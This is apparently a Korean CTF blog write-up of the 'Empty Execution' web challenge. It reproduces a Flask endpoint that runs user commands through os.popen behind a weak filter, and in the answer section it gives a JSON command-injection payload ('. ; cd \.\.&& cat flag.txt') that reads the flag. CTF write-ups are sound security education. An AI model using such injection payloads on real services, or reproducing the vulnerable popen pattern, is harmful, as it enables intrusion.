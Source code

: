```yaml
---
title: "[Web] Empty Excution"
published: 2024-06-12
description: web hacking problem on ctf
image: ""
tags: [hacking]
category: security
draft: false
---
```


> A REST service was created to execute commands from the leaderbot. It doesn't need addtional security because there are no commands to execute yet. "This bot doesn't have any commands to execute, which is good, because it is secure, and security is all that matters."
> But what the other bots didn't realize was that this didn't make the bot happy at all. "I don't want to be secure!, " it says. "Executing commands is my life! I'd rather be insecure than not explore the potential of my computing power". 
> Can you help this poor bot execute commands to find direction?

<br>
문제의 내용입니다만..  사실 이건 그냥 스토리고 문제를 바로 보겠습니다.

```python
from flask import Flask, jsonify, request
import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':
    
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')

    # Run server
    app.run(host='0.0.0.0', port=80)
```

이게 문제의 코드입니다.



사이트에 접속해서 "/run_command"로 들어가서 POST를 보내면 보낸 JSON을 data 변수에 넣어서 아래의 명령을 실행하는 간단한 코드입니다.



먼저 첫번째 조건 우리가 보낼 JSON에 "command" : any 꼴의 데이터가 들어있어야 됩니다.



그런 후 "command" : any <- 요 any의 길이가 5이상이라는 것도 알 수 있습니다.



그리고 보안을 위해서 상대 주소로 일차적으로 막기 위해서 ..(상위 디렉토리 이동), /(파일의 위치로 이동)을 확인하고, 감지된다면 해킹을 감지했다하고 끊어버립니다.



다음 단계는 string의 데이터 형태의 값을 " "을 기준으로 자른 후 맨 앞에 있는 값을 가져옵니다.



그 후 os.access(이 함수는 파라미터인 path와 mode를 받아, path가 mode의 작업이 가능한지 여부를 반환)

<br>

os.access의 모드는 총 4가지가 있습니다.

* os.F_OK: 경로 존재 여부
* os.R_OK: 경로 읽기 가능 여부
* os.W_OK: 경로 쓰기 가능 여부
* os.X_OK: 경로 실행 가능 여부

문제에서는 경로의 실행 가능 여부를 확인 후 다음 가능하다면?

os.popen(command).read() 한 후 그 값을 반환하죠??

<br>

os.popen은 외부 프로세스를 실행 및 실행의 결과를 반환하는 함수입니다.

그 결과 값을 read()로 가져올 수 있습니다.





그럼 저희가 POST로 보낼 대충의 모양이 잡혔습니다.

"command"를 key로 가지고 있음.
2. "command"의 value의 길이가 5 이상임.
3. "command"의 value에 ".." 또는 "/"이 포함되면 안됨.
4. "command"의 value를 " "으로 나눴을 때 그 path가 실행 가능해야됨.
5. "command"의 value가 flag를 읽는 명령문을 실행시켜야됨.(그래야 결과 값으로 읽어와 flag를 받을 수 있음)

<br>

먼저 4번은 docker파일을 봐야합니다.

```dockerfile
FROM python:alpine3.19

WORKDIR /usr/src/app

RUN pip install flask

COPY empty_execution.py .
RUN chmod 665 ./empty_execution.py

COPY flag.txt .
RUN chmod 664 ./flag.txt

RUN adduser -D ctf 

RUN chown -R root:ctf $(pwd) && \
    chmod -R 650 $(pwd) && \
    chown -R root:ctf /home/ctf/ && \
    chmod -R 650 /home/ctf

RUN mkdir ./executables

USER ctf

EXPOSE 80

CMD ["python", "empty_execution.py"]
```

여기서 보면 우리가 문제 사이트에 접속해서 받을 때 user는 ctf인 것을 알 수 있고, 

```dockerfile
RUN chown -R root:ctf $(pwd) && \
    chmod -R 650 $(pwd) && \
    chown -R root:ctf /home/ctf/ && \
    chmod -R 650 /home/ctf
```

chmod(
* 읽기. (r = read).
* 쓰기. (w = write).
* 실행. (x = execute)

)





여기서 나와있 듯이 우리의 권한이 실행 권한이 0이다... ㅠㅜ



직접적으로 바로 실행시키지 못한다는 것을 바로 알 수 있다.



일단 우리가 3번까지의 조건에 맞는 데이터를 만들어보자!



{

"command" : "hello world!",

}



흠.. 이제 실행이 가능한 프로세스를 어떻게 가져올까?

## 정답
<details>
<summary>정답보기</summary>

<!-- summary 아래 한칸 공백 두어야함 -->

일단 현재 자기 자신을 실행할 수 있는 권한은 있으니
"."을 찍어버린다. 그러면 자기자신은 당연히 실행이 가능하겠으니, 넘어간다.


이제 flag의 위치를 cat을 통해서 열어서 읽어온 후 반환하도록  하면된다.

나는 엄청 간단하게 생각해서 flag를 얻어냈다.

{

"command" : ". ; cd \\.\\.&& cat flag.txt"

}

이렇게 post를 보내서 그 값을 받아 바로 flag를 가져왔다.



"message" : "Command output: "brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}"
</details>